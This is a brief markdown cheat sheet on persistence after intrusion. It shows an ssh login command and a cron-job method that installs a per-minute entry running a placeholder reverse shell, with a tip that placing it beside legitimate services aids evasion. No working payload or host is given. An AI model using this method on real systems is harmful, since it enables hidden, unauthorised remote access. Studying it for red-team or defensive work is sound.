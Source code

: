 # SSH Keys
## Note: SSH Keys need to be 'chmod 400' before you're able to use.

``` ssh -i $key_file -l $username $IPAddress -p $port```

## Editing Authorized_Keys

# Cron Jobs
## Putting these in the same directory as legitimate services is a +1 for evasion.


``` echo "* * * * * $bash_compatible_reverse_shell_here" > $pathtocustomcronjob```

``` crontab -i $pathtocustomcronjob ```
